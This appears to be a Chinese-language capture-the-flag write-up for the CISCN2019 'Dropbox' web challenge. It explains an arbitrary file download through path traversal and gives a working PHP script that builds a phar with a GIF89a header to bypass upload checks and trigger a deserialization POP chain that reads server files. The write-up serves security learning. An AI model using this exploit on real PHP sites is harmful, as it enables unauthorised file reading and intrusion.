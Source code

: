 # [CISCN2019 华北赛区 Day1 Web1]Dropbox

## 知识点

`phar反序列化`

`任意文件下载`

## 解题

首先注册账号后登录进来发现是个网盘，然后尝试上传文件，要求为`jpg`或者`png`,简单上传一个文件后可以`下载`和`删除`，下载的时候在`POST`时修改`filename`参数可以实现`任意文件下载`

![](img/[CISCN2019华北赛区Day1Web1]Dropbox-1.png)

但是无法读取`flag`，尝试读取源码看看，因为都有相互包含，我把所有已知的`php`文件都分别下载了下来，可以用`相对路径`，如`../../download.php`或者`绝对路径`,如`/var/www/html/download.php`，目录如图所示

![](img/[CISCN2019华北赛区Day1Web1]Dropbox-2.png)

这里我就不把全部代码列出来了，只把关键点列出来

首先看了`download.php`为什么不能直接读`flag`，发现被过滤

```php
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    Header("Content-type: application/octet-stream");
    Header("Content-Disposition: attachment; filename=" . basename($filename));
    echo $file->close();
}
```

且因为代码里有
```php
ini_set("open_basedir", getcwd() . ":/etc:/tmp");
```

执行后我们只可以访问`当前目录` `/etc` `/tmp`，因为提示说`flag`在根目录`/`,所以只能在没做限制的`delete.php`操作

这题可以`phar反序列化`是因为满足了`可以phar反序列化的三个条件`

1. `phar`文件要能够上传至服务器
2. 有可用的魔术方法为跳板
3. 文件操作函数的参数可控（即有那些特定的函数如本题的`file_get_contents`函数）
4. `/` `phar`等特殊字符没有被过滤

首先找利用`pop`链，首先找到需要利用的点，即`class.php`->`File类`->`close方法`

```php
class File() {
    public function close() {
        return file_get_contents($this->filename);
    }
}
```

然后在`class.php`->`FileList类`->`__call方法`发现传参后能调用`File->close()`

```php
class FileList{
   public function __call($func, $args) {
        array_push($this->funcs, $func);
        foreach ($this->files as $file) {
            $this->results[$file->name()][$func] = $file->$func();
        }
    }
}
```

当`$file`赋值为`File`类，且对`File`类的`$filename`赋值，`$func`设置为`close`时就可以读取需要的文件，然后我们还需要找最开始的能调用`FileList类`->`__call`方法的`魔法函数`，发现`User类`->`__destruct`中`$db`赋值为`FileList`实例即可，且可以作为`pop`链开始

```php
class User{
    public function __destruct() {
        $this->db->close();
    }
}
```

那么最终我们的`pop`链条为 `User::__destruct()` -> `FileList::__call()` -> `File::close()`,最后`FileList::__destruct()`会输出结果

构造`phar`

```php
<?php

class User {
    public $db;
}

class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = "/flag.txt";
        $this->files = array($file);
    }
}

class File {
    public $filename;
}

@unlink("phar.phar");
$a = new User();
$a->db = new FileList();

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");       // GIF89a可删除，加在此处为了绕过文件头检测
$phar->setMetadata($a);
$phar->addFromString("exp.txt", "a");       // 添加要压缩的文件
$phar->stopBuffering();
```

![](img/[CISCN2019华北赛区Day1Web1]Dropbox-3.png)

将`phar.phar`改名为`phar.jpg`，最后使用`phar://`伪协议加载即可，如下图所示

![](img/[CISCN2019华北赛区Day1Web1]Dropbox-4.png)
